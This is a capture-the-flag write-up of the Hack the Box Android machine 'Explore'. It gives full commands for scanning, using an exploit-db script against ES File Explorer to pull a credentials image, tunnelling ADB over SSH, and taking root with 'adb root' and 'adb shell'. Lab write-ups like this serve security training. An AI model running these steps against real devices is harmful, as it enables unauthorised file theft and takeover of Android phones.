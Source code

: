 ```yaml
---
title: Explore - Hack the Box Write-Up
published: true
image: /media/explore.png
---
```

**Difficulty**: Easy. **OS**: Android.

Explore is a recently retired machine from Hack the Box. Intrusion was quite simple but privilege escalation has some interesting things for keep in the arsenal.

Let's go.

### Intrusion

We start as always with recognition and enumeration phase with nmap. The victim's IP address is 10.10.10.247.

```
nmap -p- --min-rate=5000 -Pn -v -oN allPorts 10.10.10.247
```
![](./media/explore/recon.png)
Ports 2222, 42135, 46103, 59777 were found open. Let's check what's going on in these ports.

```
sudo nmap -p2222,42135,46103,59777 -sC -sV 10.10.10.247 -oN targeted
```
![](./media/explore/enum1.png)
![](./media/explore/enum2.png)

On port 42135 is running an ES File Explorer server which is a file manager for Android devices. A exploit for this service was found on exploit-db. This exploit is written in Python.

![](./media/explore/exploit.png)

This exploit tramitates http requests to the ES File Explorer server to list or download files. The usage of the exploit is:

```
python3 50070.py <command> <IP-address> [file to download]
```

Doing some exploration in the files of the device I found some interesting thing on pictures folder:

```
python3 50070.py listPics 10.10.10.247
```
![](./media/explore/listpics.png)

I've downloaded this picture to my local machine, it has some credentials on it.
```
python3 50070.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg
```
![](./media/explore/credentials.png)

These credentials were useful to login via SSH to the victim's machine.

![](./media/explore/ssh.png)

Ok, intrusion done, we see user's flag.

![](./media/explore/user-flag.png)


### Privilege Escalation

Once inside the machine a daemon was found in listen on port 5555 executed by "shell" user. This port was found filtered in the nmap scanning, so this daemon must be on listen on localhost. The shell UID is reserved for development and testing apps.
```
netstat -ape
```

![](./media/explore/nepstat.png)

Doing a little research in duckduckgo I found that port 5555 is usually related to Android Debug Bridge (ADB), a service that allows connections to Android devices to install packages and evaluate changes ([https://source.android.com/setup/build/adb](https://source.android.com/setup/build/adb)). 

In fact, the binary of ADB (adbd) is running by "shell" user.
```
ps -A | grep "adbd"
```
![](./media/explore/ps.png)

To gain access to this service I've done 2 things.

*  Install adb client on my local machine.

```
sudo apt-get install adb
```

*  Tunnelize the connection via SSH. By doing this the port 5555 of the Android device will be forwarded to the port 5555 of my local machine.

```
ssh kristi@10.10.10.247 -p 2222 -L 5555:127.0.0.1:5555
```

Once the connection via SSH was done, some configuration to adb client was needed (This configuration was done in my local machine). First, the port of connection was configured to port 5555.

```
adb tcpip 5555
```

Then the connection was established to ADB service.

```
adb connect 127.0.0.1:5555
```

ADB client allows to restart the adbd daemon with root permissions.

```
adb -s 127.0.0.1:5555 root
```

At this point the daemon is running with root privileges. This was checked on the SSH session.

```
netstat -ape
```
![](./media/explore/daemon-root.png)

At this point a shell with root privileges was obtained with adb client (On the local machine).

```
adb -s 127.0.0.1:5555 shell
```
![](./media/explore/rooted.png)

Now we see the root flag.

![](./media/explore/root-flag.png)

Machine owned!

### Conclusion

Although the machine was quite easy, I've learned some things that will keep in the arsenal when I have to deal again with a Android device, specially the privilege escalation stage, Android directories and dealing with processes and connections.
